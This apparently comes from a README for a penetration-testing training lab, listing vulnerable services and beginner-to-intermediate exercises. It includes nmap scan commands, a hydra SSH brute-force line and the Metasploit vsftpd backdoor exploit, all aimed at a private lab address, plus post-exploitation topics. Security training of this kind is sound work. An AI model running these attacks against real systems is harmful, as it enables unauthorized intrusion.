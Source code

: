 ### Network Services
1. **FTP Server** - File transfer vulnerabilities
2. **SSH Server** - Authentication testing
3. **Web Server** - HTTP/HTTPS attacks
4. **Database Server** - SQL injection practice

### Windows Active Directory
1. **Domain Controller** - Enterprise simulation
2. **File Shares** - Permission testing
3. **Group Policies** - Configuration analysis
4. **Exchange Server** - Email security

## Lab Exercises & Scenarios 🎯

### Beginner Exercises
1. **Network Discovery**
   ```bash
   # Scan the lab network
   nmap -sn 192.168.56.0/24
   nmap -sS -O 192.168.56.101
   ```

2. **Web Application Testing**
   - SQL injection in DVWA
   - Cross-site scripting (XSS)
   - File upload vulnerabilities

3. **Password Attacks**
   ```bash
   # SSH brute force
   hydra -l admin -P passwords.txt ssh://192.168.56.101
   ```

### Intermediate Exercises
1. **Exploitation Practice**
   ```bash
   # Metasploit against Metasploitable
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.56.101
   exploit
   ```

2. **Post-Exploitation**
   - Privilege escalation
   - Lateral movement
   - Data exfiltration

3. **Digital Forensics**
   - Memory analysis
   - Disk imaging
   - Network forensics
